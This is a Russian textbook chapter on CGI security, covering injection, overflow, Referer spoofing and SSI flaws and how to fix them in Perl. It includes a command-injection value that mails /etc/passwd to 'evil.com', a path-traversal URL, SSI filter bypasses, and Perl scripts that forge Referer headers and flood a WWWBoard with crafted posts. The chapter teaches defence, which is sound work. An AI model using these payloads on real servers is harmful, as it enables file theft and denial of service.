

АТАКА НА INTERNET
Устанавливая последнюю версию Web сервера, мы можем быть уверены хотя бы в том, что она не содержит очевидных ошибок, опубликованных по всей Сети пару лет тому назад. На появление новых ошибок производители реагируют достаточно быстро, а задача администратора сводится к тому, чтобы быть в курсе происходящего. С CGI-приложениями ситуация несколько иная - на сей раз в роли разработчика зачастую выступают владельцы сайтов, которые должны сами заботиться о безопасности приложений. Не стоит особо доверять и готовым скриптам - огромное количество ошибок обнаруживается именно в примерах, поставляемых вместе с Web серверами, а также во многих популярных скриптах.
Вопросам безопасности, наиболее часто встречающимся ошибкам и методам создания безопасных CGI приложений и посвящен этот раздел.
Общие сведения
CGI (Common Gateway Interface, общий шлюзовой интерфейс) представляет собой компонент Web сервера, обеспечивающий взаимодействие с другими программами, выполняемыми на этом сервере. Используя CGI, Web сервер вызывает внешнюю программу (CGI-приложение) и передает ей информацию, полученную от клиента (например, переданную Web-браузером). Далее CGI приложение обрабатывает полученную информацию, и результаты ее работы передаются клиенту.
Рассмотрим эти этапы чуть подробнее. Взаимодействие между клиентом и серверным приложением осуществляется по схеме, представленной на рис. 10.5.

Рис. 10.5. Схема взаимодействия браузера, WWW-сервера и CGI-приложения
- Пользователь заполняет экранную форму и нажимает на кнопку "Submit". Возможен также запрос при непосредственном использовании адреса CGI приложения - указывая его в строке Location браузера, в тэге <img> с помощью средств включения сервера (SSI) и т.д.
- На основе информации из формы браузер формирует HTTP запрос и отправляет его серверу. Информация приводится к виду param1=value1¶m2=value2...¶mN=valueN. Если указано, что при передаче должен использоваться метод GET, эта строка передается непосредственно в URL (например, http://www.somehost.com/cgi bin/script.cgi?param1=value1¶m2=value2). При использовании метода POST через заголовок передается информация о типе содержимого запроса (для форм это, как правило, application/x-www-form-urlencoded), а также длина строки. Сама строка в этом случае передается непосредственно в теле запроса (примеры приведены чуть ниже). В заголовках запроса также передается значительное количество вспомогательной информации: тип браузера, адрес страницы, с которой был произведен запрос, и т. д.
- Сервер вызывает CGI-приложение, и в зависимости от метода запроса передает информацию из формы через переменную окружения QUERY_STRING (в случае GET) либо через стандартный ввод (в случае POST). Также формируются другие переменные окружения, такие как HTTP_USER_AGENT, REMOTE_HOST и др.
- CGI-приложение считывает строку с переданной информацией со стандартного ввода (stdin) или из переменной окружения QUERY_STRING. Обработав информацию, программа, как правило, либо переадресует браузер на некоторый существующий документ с помощью http заголовка Location, либо формирует виртуальный документ, посылая информацию на стандартный вывод (stdout). Телу документа предшествуют HTTP заголовки, описывающие тип возвращаемых данных, управляющие кэшированием, работой с cookies и т. д. Все это передается серверу.
- Сервер пересылает ответ CGI-приложения браузеру.
- Браузер, основываясь на заголовках HTTP, интерпретирует ответ CGI-приложения и выводит его для просмотра пользователем.
CGI-приложения были первым средством "оживления" статичных Web страниц. Их главная особенность в том, что они выполняются на сервере. Java, JavaScript, ActiveX появились позднее и, в отличие от cgi, предназначались преимущественно для создания приложений на клиентской стороне. Но даже такая тривиальная задача, как установка счетчика посещений страницы, уже требует серверного решения. О плюсах серверных решений можно говорить долго, но нас сейчас интересует совсем другой вопрос - некорректно написанное CGI-приложение может стать источником весьма серьезных проблем.
Ответственность разработчика CGI-приложения ничуть не меньше ответственности разработчика Web сервера. Ошибка и того, и другого может привести к одинаково печальным последствиям. Однако мало кто занимается написанием Web серверов для души - все таки это удел профессионалов, в то время как количество желающих развлечься CGI-программированием постоянно растет, и с плодами их творчества мы сталкиваемся все чаще и чаще.
Распространенные ошибки
Основная ошибка начинающих программистов - надежда на то, что пользователь будет себя вести "хорошо" и обращаться с программой именно так, как задумано автором. Это справедливо не только для CGI-приложений, но и для любого программного обеспечения, однако когда автор многочисленных утилит "для себя" решает попробовать свои силы в программировании для серверов, он немедленно попадает в другую весовую категорию. Ему может казаться, что он продолжает писать "для себя", в действительности же его потенциальными пользователями становятся все обитатели сети, а уж от них ждать снисхождения не приходится. И не стоит успокаивать себя тем, что CGI-приложения выполняются в контексте пользователя с минимальными правами - даже в хорошо сконфигурированной системе этих прав зачастую достаточно для выдачи информации, которой можно воспользоваться при взломе системы.
Поэтому особенно важно с самого начала четко представлять, какие подводные камни ожидают CGI-программиста, чтобы по возможности избежать горького опыта обучения на собственных ошибках.
Несколько слов о выборе средств разработки. Компилируемые языки, такие как C/C++, имеют некоторое преимущество в том смысле, что на сервере отсутствует исходный код приложения, а это сильно затрудняет возможность его исследования - в отличие от интерпретируемых языков (например, Perl). В штатных условиях код последних также недоступен, но всегда есть возможность добраться до него, используя какие то ошибки сервера или просто находя сохраненную резервную копию. С другой стороны, исходные тексты популярных CGI-приложений и так достаточно распространены в сети, кроме того, тот же Perl имеет встроенные механизмы обеспечения безопасности выполняемых скриптов, так что нельзя априори утверждать, что программа на C будет безопасней аналогичной программы на Perl. Все дальнейшие рассуждения по большей части применимы как к компилируемым, так и к интерпретируемым программам.
Во-первых, самая распространенная ошибка для программистов на C/C++, как обычно, связана с возможностью переполнения буфера (см. главу 9). Эта проблема особенно характерна для C/C++, поскольку программисту на Perl нет необходимости заботиться о ручном выделении памяти под строки.
Например, для получения данных, переданных методом POST, можно написать следующий код:
char buff [4096];
int length = atoi(getenv("CONTENT_LENGTH"));
fread(buff, 1, length, stdin);
Возможное переполнение буфера налицо. Справиться с этой проблемой очень легко - достаточно динамически выделить буфер требуемой длины:
int length = atoi(getenv("CONTENT_LENGTH"));
char* buff = new char[length];
if(buff)
fread(buff, 1, length, stdin);
Потенциально опасны многие строковые функции, определяющие конец строки по завершающему нулю. Поэтому вместо функций strcpy, strcat, strcmp и т. п. настоятельно рекомендуется использовать их аналоги strncpy, strncat, strncmp, позволяющие указать максимальное количество обрабатываемых символов.
Казалось бы, можно ограничить объем вводимой информации указанием соответствующих параметров в тэгах формы, но это еще одно очень опасное заблуждение, которого мы коснемся чуть позже.
Возможно, именно из за необходимости постоянно контролировать размер буфера, многие начинающие (и не только) CGI-программисты предпочитают Perl.
Во-вторых, следующий большой класс ошибок связан с вызовом внешних программ. Здесь Perl предоставляет больше шансов для случайной ошибки - в то время как у С++ с этой точки зрения потенциально опасны функции popen и system (причем вместо последней часто можно безболезненно воспользоваться exec или spawn), у Perl проблемными считаются функции system и exec, open с перенаправлением вывода (аналогичная popen), функция eval, а также обратная кавычка "`".
Сами по себе перечисленные функции достаточно безопасны, и, если скрипт просто вызывает некую внешнюю программу, никакой беды в этом нет. Сложности возникают, когда скрипт передает внешней программе в качестве параметра некую информацию, введенную пользователем: адрес, сообщаемый программе электронной почты, вызов grep из поисковой системы и т. д. Если в процессе вызова внешней программы будет участвовать командная оболочка, как это происходит при использовании перечисленных функций, то можно воспользоваться ее управляющими символами и выполнить на сервере любую команду.
Очевидный пример - отправление письма по адресу, указанному пользователем (например, в качестве подтверждения какого то запроса и т. п.):
#!/usr/bin/perl
use CGI qw(:standard);
$query = new CGI;
$mailprog='| /usr/sbin/sendmail';
$address= $query->param('address');
$from='webmaster@somehost';
open (MAIL,"$mailprog $address");
print MAIL "From: $from\nSubject: Confirmation\n\n";
print MAIL "Your request was successfully received\n";
close MAIL;
Теперь предположим, что пользователь ввел следующий обратный адрес: hacker@evil.com;mail hacker@evil.com </etc/passwd;, в результате чего выполнится команда /usr/sbin/sendmail hacker@evil.com;mail hacker@evil.com </etc/passwd; - явно не то, что мы ожидали (сравните, кстати, с атаками, описанными в главе 9).
Кроме того, при этом вполне может быть использована какая-нибудь недокументированная команда или люк, позволяющие выполнить код от имени привилегированного пользователя.
В-третьих, уязвимы программы, рассчитывающие на определенные значения специальных переменных, к примеру, на значение переменной PATH при вызове внешних программ. Нарушитель может попытаться изменить ее значение так, чтобы она указывала на программу, которую он хочет подставить для выполнения вашим сценарием вместо ожидаемой вами. Следовательно, необходимо либо указывать полный путь до исполняемой программы, либо устанавливать ее значение до первого использования. Причем не рекомендуется помещать в PATH текущий путь (данное правило, к сожалению, игнорируется во всех Windows-системах, начинающих поиск запускаемой программы именно с текущего каталога).
В-четвертых, опасным заблуждением является расчет на то, что ограничения, установленные в полях формы, а также значения спрятанных полей не будут никем модифицированы. В действительности же никто не может помешать пользователю подсмотреть значения скрытых полей в исходном коде страницы, скопировать страницу на свой диск, слегка модифицировать по своему усмотрению и проверить скрипт на прочность.
Первым барьером на этом пути обычно служит проверка переменной окружения HTTP_REFERER, хранящей URL страницы, с которой был вызван скрипт. Если HTTP_REFERER указывает на адрес, не имеющий ничего общего с адресом нашего сайта, можно смело игнорировать этот вызов, рассматривая его как атаку.
Использовать HTTP_REFERER эффективно в борьбе со спаммерами, засоряющими гостевые книги, доски объявлений и т.п. Конечно, в большинстве случаев помогает блокировка соответствующего IP адреса, сочетающаяся с установкой cookie, однако более настойчивый пользователь может подготовить html код с формой, вызывающей ваш скрипт гостевой книги, и пару строк на JavaScript, автоматически отправляющих эту форму, после чего разместить html код в чужих гостевых книгах, разослать его по телеконференциям и т. п. При отсутствии проверки на HTTP_REFERER несколько веселых дней вам гарантировано.
К сожалению, не все так хорошо и с проверкой. Переменная HTTP_REFERER получает свое значение из http заголовка Referer, передаваемого клиентом. Если в роли клиента выступает обычный браузер, этот заголовок действительно заполняется так, как мы и предполагали. Но проблема в том, что никто не помешает воспользоваться клиентом, ведущим себя менее добросовестно, к примеру, вот таким скриптом:
#!/usr/bin/perl w
use Socket;
$proto = getprotobyname('tcp');
socket(Socket_Handle, PF_INET, SOCK_STREAM, $proto);
$port = 80;
$host = "www.victim.com";
$sin = sockaddr_in($port,inet_aton($host));
connect(Socket_Handle,$sin);
send Socket_Handle,"GET /cgi-bin/env.cgi?param1=val1¶m2=val2 HTTP/1.0\n",0;
send Socket_Handle,"Referer: any referer you wish\n",0;
send Socket_Handle,"User Agent: my agent\n",0;
send Socket_Handle,"\n",0;
while (<Socket_Handle>)
{
print $_;
}
В нашем случае имитируется отправление данных формы методом GET, но для имитации метода POST (пример работы с POST приведен далее) тоже нет серьезных препятствий. С точки зрения безопасности эти методы примерно равнозначны. Некоторое предпочтение можно отдать POST, поскольку GET передает всю информацию непосредственно в URL, что делает ее более доступной для перехвата. Представим ситуацию, когда некоторая форма требует ввода имени и пароля и передает их методом GET. Далее динамически формируется страница, имеющая ссылку на другой сервер. Если посетитель уйдет по этой ссылке, то в качестве Referer в log-файл сервера будет записан тот самый URL, в котором открыто прописаны имя пользователя и его пароль. Опять же GET легче поддается имитации - для его подделки необязательно копировать и модифицировать код формы, достаточно набрать в адресной строке браузера подходящий URL.
В-пятых, ошибочно хранить критичную информацию в открытых для доступа файлах. Можно, конечно, утешать себя мыслью, что адреса файлов еще надо определить, но в любом случае это решение считается неудачным: всегда есть шанс, что из-за плохой конфигурации сервера станет возможным просмотр списка файлов в каталоге и наша информация будет выставлена на всеобщее обозрение; нельзя исключать возможность распространения нашего скрипта - он завоюет популярность, его исходные тексты станут доступными по всей сети, и месторасположение секретных файлов опять-таки перестанет быть тайной. Поэтому файлы с критичной информацией желательно располагать в местах, по возможности вынесенных за пределы дерева каталогов Web сервера или хотя бы защищенных от чтения (например, при использовании Apache этого можно добиться, разместив в защищаемом каталоге файл .htaccess со строкой deny all внутри).
Источник многих проблем для сайтов с установленными гостевыми книгами (или аналогичными скриптами) - html тэги. Разрешив пользователю ввод тэгов, вы тем самым провоцируете атаку и на других пользователей, и на сервер. Последнее возможно в случае, если сервер сконфигурирован таким образом, что файлы, создаваемые скриптом, допускают использование SSI (Server Side Includes - директивы включения на стороне сервера). SSI позволяют вставить в html документ результат выполнения некоторой программы, содержимое другого файла, значение переменной окружения и т. д. Директивы SSI имеют следующий вид:
<!--#команда параметр="аргумент"-->
Например:
<!--#include virtual="/some.html"--> <!--#exec cgi="/cgi-bin/some.cgi"--> <!--#exec cmd="/bin/somecommand"-->
Чтобы не допускать к использованию SSI всех посетителей сервера, можно разрешить SSI-директивы только в файлах с определенным расширением (обычно *.shtml), тогда в файлах *.html, создаваемых скриптами, команды SSI будут восприниматься как простой комментарий. Однако подобное решение далеко не всегда устроит разработчика сайта.
Следующий способ - полная фильтрация тэгов. Самое простое - заменить все символы "<" и ">" на коды "<" и ">" соответственно:
$string =~ s/</</g; $string =~ s/>/>/g;
Другой вариант - удалить все, что находится внутри угловых скобок:
$string =~ s/<([^>]|\n)*>//g;
Опять же не все Web мастера желают лишать своих посетителей возможности вставки кодов для красивого оформления текста. Тогда последнее, что остается сделать, - фильтровать часть кодов, оставляя лишь самые "безопасные". Это наиболее трудоемкий и потенциально опасный путь:
@BADTAG = (
"applet",
"script",
"iframe",
#и т. д., все "опасные" тэги
"img"
);
foreach $t(@BADTAG)
{
$string =~ s/<$t/<none/gi;
$string =~ s/</$t/</none/gi;
}
Такой подход чреват некоторыми опасностями. Например, известный скрипт formmail Мэтта Райта в последнее время фильтрует SSI следующим образом:
value =~ s/<!--(.|\n)*-->//g;
Это несомненный прогресс по сравнению с первыми версиями, просто пропускавшими SSI. Однако проблема в том, что Apache, по крайней мере, не требует присутствия закрывающих символов "-->" для выполнения указанной директивы, поэтому злоумышленник может добиться своего, просто введя строку <!--#include virtual="some.html".
Казалось бы, можно справиться с проблемой, "выкусывая" <!-- (value =~ s/<!--//g;), но и в этом случае остается обходной маневр: строка <<!--!--#include virtual="some.html" в итоге преобразуется в <!--#include virtual="some.html".
Достаточно безопасной можно считать конструкцию while(s/<!--//g){}, хотя и у нее есть свои минусы. Похожие проблемы возникают на серверах, использующих ASP, PHP и т. д., причем большинство свободно распространяемых скриптов их просто игнорирует. Будьте крайне осторожны, адаптируя готовый скрипт к своему серверу, если он (сервер) умеет чуть больше, чем просто возвращать html документы.
Создание безопасных CGI-приложений
Рассмотрим основные рекомендации по созданию безопасных CGI-приложений на Perl, позволяющие справиться с вышеописанными проблемами.
При использовании sendmail избавиться от ошибки очень легко - достаточно применить ключ "-t", запрещающий использовать адрес, переданный в командной строке, и передать его в заголовке письма:
... $mailprog='| /usr/sbin/sendmail -t'; open (MAIL,"$mailprog "); print MAIL "To: $address\nFrom: $from\nSubject: Confirmation\n\n"; print MAIL "Your request was successfully received\n"; close MAIL;
Если же никак не удается избавиться от необходимости передачи пользовательского ввода оболочке, остается фильтровать в нем все специальные символы. Этих символов довольно много: <>|&;`'\"*$?~^()[]{}\n\r.
Самое простое, что можно сделать, - удалить все спецсимволы из введенной строки с помощью конструкции примерно такого вида:
$metasymbols = "][<>\|&;`'\"*\$\?~\^(){}\n\r";
$string =~ s/[$metasymbols\\]//g;
Помимо этого постарайтесь гарантировать соответствие ввода предусмотренному шаблону. Скажем, для того же почтового адреса этим шаблоном может быть name@domain1.domain2, что чаще всего делается на Perl следующим образом:
die "Wrong address" if ($address !~ /^\w[\w\-.]*\@[\w\-.]+$/);
Здесь в начале и в конце строки ожидается один или несколько символов a-z, A-Z, 0-9, "-", "." и "@" внутри, причем "-" или "." не могут быть первыми. Правда, это не слишком помогает против атак, подобных приведенной выше, достаточно завершить наш псевдоадрес чем нибудь типа ;@somewhere.ru.
Если же у вас нет желания фильтровать спецсимволы, можно использовать другой вариант вызова функций system и exec, позволяющий передать не один аргумент, а список аргументов. В этом случае Perl не передает список аргументов в оболочку, а рассматривает первый аргумент как подлежащую выполнению команду, и остальные аргументы - как параметры этой команды. Причем обычная для оболочки интерпретация спецсимволов не производится: вместо system "grep $pattern $files"; использовать system "grep", "$pattern", "$files";.
Этим же свойством можно воспользоваться для безопасного перенаправленного ввода/вывода. При этом нам понадобится знание того факта, что при открытии с перенаправлением вывода команды "-" мы неявно вызываем fork, создавая тем самым копию нашего процесса. В такой ситуации функция open возвращает 0 для дочернего процесса и pid дочернего процесса для родительского, что позволяет применять оператор or:
open (MAIL, "|-") or exec $mailprog, $address; #open в родительском процессе возвращает ненулевое значение, и нет #необходимости выполнять правую сторону or. Дочерний же процесс #выполняет exec, после чего завершается. print MAIL "From: $from\nSubject: Confirmation\n\n"; print MAIL "Your request was successfully received\n"; close MAIL;
В перечисленных методах есть один недостаток - они требуют явного применения и определенной культуры программирования. Программист должен заставлять себя писать безопасный код, никогда не будучи до конца уверенным в отсутствии ошибок.
Perl, запущенный в так называемом зараженном режиме (tainted mode), позволяет снять часть этого гнета. Чтобы попасть в такой режим, достаточно указать параметр "-T".
После этого работа Perl приобретает несколько параноидельный характер. Все переменные, проинициализированные за пределами программы, считаются зараженными и не могут быть переданы в качестве параметров потенциально опасным функциям, таким как system, exec, eval, unlink, rename и т. д. Попытка использовать их таким образом прервет выполнение скрипта с выдачей соответствующего предупреждения.
Переменные, инициализированные вне программы, - это переменные, значения которых получены из параметров программы, со стандартного входа, из переменных среды. Причем эта "зараза" распространяется - так, если использовать зараженную переменную для инициализации другой переменной, та тоже станет зараженной. "Зараза" остается, даже если мы проверили переменную на отсутствие всех спецсимволов либо очистили ее от них.
Таким образом, мы устраняем возможность случайного пропуска пользовательского ввода в опасную функцию. Но как быть, если именно это нам и нужно?
Единственный способ "обеззаразить" переменную - воспользоваться регулярными выражениями и применить извлечение совпадающей подстроки при поиске по маске. Это не слишком удобно, зато торжествует принцип "все, что не разрешено - запрещено". Заодно приобретете опыт использования регулярных выражений, что наверняка пригодится в будущем.
| Регулярные выражения хорошо знакомы опытным пользователям Unix, они применяются во многих Unix-утилитах, таких как grep, awk, sed, в редакторах (vi, emacs), в некоторых командных оболочках и т.д. Дополнительную информацию об использовании регулярных выражений можно найти практически в любой книге по Perl (например: Рэндал Шварц и Том Кристиансен "Изучаем Perl" (Randal L. Schwartzh and Tom Christiansen. Learning Perl); "Programming Perl" by Larry Wall, Tom Christiansen & Randal Schwartz и "Mastering Regular Expressions" by Jeffrey Friedl). |
$address =~ /(\w[\w\-.]*)\@([\w\-.]+)/; $cleanaddress = $1.'@'.$2;
Все, что сопоставится выражению в первых круглых скобках, будет занесено в переменную $1, во вторых - в $2, и т.д. Переменные $1 и $2 будут уже считаться обеззараженными, и мы можем смело конструировать из них наш искомый адрес. Да, эти переменные тоже были получены из пользовательских данных, но Perl считает, что раз их значение было получено из регулярного выражения, значит, они прошли нашу проверку и можно о них не беспокоиться.
Чтобы быть уверенными до конца, можно вставить в наш код проверку:
if($address =~ /(\w[\w\-.]*)\@([\w\-.]+)/)
{
$cleanaddress = $1.'@'.$2;
}
else
{
warn "Wrong address: $address"; #выдавая сообщение об ошибке на stderr
$cleanaddress = "";
}
Тем самым, правда, отсекаются вполне законные имена типа mama&papa@home.org. Менее строгая проверка вида address=~/(\S+)\@([\w.-]+)/ пропустит и метасимволы, сведя на нет все наши усилия по обеззараживанию.
У вас может возникнуть желание обеззаразить переменную следующим образом:
$address =~ (.*); $cleanaddress = $1;
Что ж, вольному - воля. Вы только что отключили все проверки и взяли всю ответственность на себя.
При использовании зараженного режима неожиданно может возникнуть ситуация, когда Perl откажется запускать внешнюю программу, поскольку переменная окружения PATH, с помощью которой определяется местоположение исполняемого модуля, тоже считается зараженной. Чтобы справиться с этим, достаточно проинициализировать ее вручную одним из следующих способов:
- $ENV{'PATH'} = '/bin:/usr/bin:/usr/local/bin';
- $ENV{'PATH'} = '';
Ошибки в известных CGI-скриптах
Примеры некоторых таких скриптов уже приводились выше - это и печально известный phf, и formmail (кстати, все скрипты Мэтта Райта, которые можно найти на http://www.worldwidemart.com/scripts/, фильтруют SSI именно описанным выше способом). Перечислим еще несколько.
Старые версии (1.0 - 1.2) счетчика TextCounter, вставляющегося в страницу через CGI, получали адрес обсчитываемой страницы из переменной окружения DOCUMENT_URI, при этом не производилась проверка на метасимволы со всеми вытекающими последствиями.
Популярный счетчик wwwcount (http://www.fccc.edu/users/muquit/Count.html), написанный на С, содержал традиционную ошибку, связанную с копированием содержимого переменной окружения QUERY_STRING в буфер фиксированной длины. Передав ему специально сформированную строку, можно было выполнить на сервере любой код. Затронуты версии 1.0 - 2.3. Версия 2.3 также содержала ошибку, позволяющую просмотреть на сервере любой GIF файл с помощью следующего запроса: http://www.victim.com/cgi-bin/Count.cgi?display=image&image=../../../../../../path_to_gif/file.gif.
Впрочем, возможность применения последней ошибки не совсем ясна...
В конце 1997 года была обнаружена ошибка в поисковой машине Excite, которая тоже не утруждала себя фильтрацией метасимволов (о версиях 1.0 - 1.1).
Рассмотрим чуть поподробнее популярный скрипт WWWBoard, наглядно демонстрирующий практически все промахи, которые только может допустить cgi-программист. Ошибки, перечисленные ниже, относятся к последней версии скрипта.
Первый недостаток - популярность скрипта. Он, несомненно, остается одним из самых распространенных скриптов для досок объявлений, несмотря на то, что ему на смену приходят более современные и обладающие большими возможностями реализации.
Поэтому первое, что должен сделать человек, желающий использовать WWWBoard, - перенести файл с паролем администратора в безопасное место, а собственно скрипт администрирования - либо переименовать, либо перенести в защищенный от общего доступа каталог. Иначе ваша доска объявлений станет хорошим полигоном для исследований возможностей того же John the Ripper (см. главу 9), потому что пароль администратора доски хранится в этом файле зашифрованным с помощью стандартной функции crypt (как правило, шифрующей пароль с помощью алгоритма DES, впрочем, в некоторых реализациях Perl для Win32 эта функция просто возвращает без изменений переданную ей строку). После чего вы можете с удивлением обнаружить, что кто-то удалил все записи на вашей доске, и только порадоваться, что у средств администрирования WWWBoard нет никаких возможностей, кроме удаления неугодных записей.
Это, собственно, не ошибка автора скрипта, а всего лишь потенциальная ошибка конфигурирования, которую тем не менее допускают очень многие.
Теперь об ошибках. Основной код выглядит следующим образом:
# Get the Data Number
&get_number;
# Get Form Information
&parse_form;
# Put items into nice variables
&get_variables;
# Open the new file and write information to it.
&new_file;
# Open the Main WWWBoard File to add link
&main_page;
# Now Add Thread to Individual Pages
if ($num_followups >= 1) {
&thread_pages;
}
# Return the user HTML
&return_html;
# Increment Number
&increment_num;
Обратите внимание на пару функций get_number/increment_number.
Код первой:
sub get_number {
open(NUMBER,"$basedir/$datafile");
$num = <NUMBER>;
close(NUMBER);
if ($num == 99999) {
$num = "1";
}
else {
$num++;
}
}
Код второй:
sub increment_num {
open(NUM,">$basedir/$datafile") || die $!;
print NUM "$num";
close(NUM);
}
Эти функции считывают из файла $datafile номер последнего сообщения, увеличивают его и сохраняют. Причем в промежутке между их вызовами полностью отрабатывает весь скрипт - обрабатывается пользовательский ввод, формируется новое сообщение, ссылка на него добавляется в главный файл доски и т.д. На небольших досках это не приведет к большим проблемам. На досках же с большой посещаемостью и с разросшимся главным файлом время выполнения скрипта существенно отличается от нуля, и вероятность того, что очередной посетитель отправит следующее сообщение до того, как скрипт обработает предыдущее, сильно возрастает (для этого даже необязательно ждать другого посетителя, вполне достаточно и одного, несколько раз нажавшего Submit). В итоге на доске появятся два сообщения с одинаковыми номерами, причем ответы на них будут продублированы. Это характерный пример игнорирования многопользовательской природы WWW.
Первые строчки функции main_page, занимающейся добавлением заголовка сообщения на главную страницу доски, выглядят так:
open(MAIN,"$basedir/$mesgfile") || die $!; @main = <MAIN>; close(MAIN);
Другими словами, при добавлении записи вся доска считывается в память, после чего файл открывается еще раз, и в него записывается уже обновленная версия доски. Эта же техника используется и в скрипте администрирования (и, между прочим, в скрипте гостевой книги того же автора). На больших досках это может привести к самым разным результатам (в зависимости от сервера, платформы, реализации интерпретатора perl): к уничтожению информации на доске, замедлению работы сервера (вплоть до замораживания системы) и т. п.
Дополнительную уязвимость доске придает то, что большое количество критической информации хранится непосредственно в сообщении - в виде скрытых полей. В частности, в поле followup хранятся номера сообщений, предшествовавших текущему в "потоке", а также номер текущего сообщения - для того, чтобы можно было их скорректировать после добавления очередного сообщения:
<input type=hidden name="followup" value="1,2,3">
Небольшие манипуляции с этим полем могут привести к разным последствиям, самое безобидное из них - засорение доски с помощью указания в строке followup номеров сообщений, не имеющих отношения к текущему. Если же мы сформируем следующее значение ("2, 2, 2"), то уже после отправления первого сообщения на главной странице доски к записи с этим номером добавится один ответ, а также три записи вида (N), показывающие количество ответов. В теле самого сообщения уже будут видны три ссылки на один и тот же ответ. Если мы отправим это же сообщение во второй раз, то на главной странице получим 9 записей (N) и еще две ссылки.
Другими словами, отправление N сообщений с followup, содержащим M упоминаний сообщения k, приведет к записи в файл главной страницы MN записей вида (<!--responses: k-->N). Так, followup типа "2,2,2,2,2,2,2,2,2,2", отправленный 9 раз, даст нам 21*109 байт одних только скобочек с номерами, а объем информации, переданной с клиента, не превысит и килобайта. В сочетании с предыдущей ошибкой получаем эффективное средство атаки на сервер.
Разумеется, можно попытаться поставить заслон атакующему, проверяя HTTP_REFERER и отвергая сообщения, посланные не с нашего сервера, но, как сказано выше, HTTP_REFERER легко подделать. На примере следующей атаки рассмотрим использование метода POST:
#!/usr/bin/perl
use Socket;
$port=80;
$remote="www.victim.com";
$path="/cgi-bin/wwwboard.pl";
$name="Some name";
$email='my@mail';
$subject="great page!";
$body="Nice page, guys!";
$followup="2,2,2,2,2,2,2,2,2,2,2,2,2,2";
$timestopost=10;
$forminfo = "name=$name&email=$email&followup=$followup".
"&subject=$subject&body=$body";
$forminfo =~ s/\,/\%2C/g;
$forminfo =~ tr/ /+/;
$length = length($forminfo);
$submit = "POST $path HTTP/1.0\r\nReferer: $url\r\n".
"User Agent: Mozilla/4.07 (Win95; I)\r\n".
"Content type: application/x www form urlencoded\r\n".
"Content length: $length\r\n\r\n$forminfo\r\n";
for($i=1; $i <= $timestopost; $i++)
{
&post_message;
print "$i message(s) posted.\n";
}
sub post_message
{
$iaddr = inet_aton($remote) ||
die("Failed to find host: $remote");
$paddr = sockaddr_in($port, $iaddr);
$proto = getprotobyname('tcp');
socket(SOCK, PF_INET, SOCK_STREAM, $proto) ||
die("Failed to open socket: $!");
connect(SOCK, $paddr) ||
die("Unable to connect: $!");
send(SOCK,$submit,0);
close(SOCK);
}
Единственный способ реально "залатать" скрипт - вставить проверку повторяющихся номеров сообщений в followup, но и это не решит проблему окончательно.
| « | » |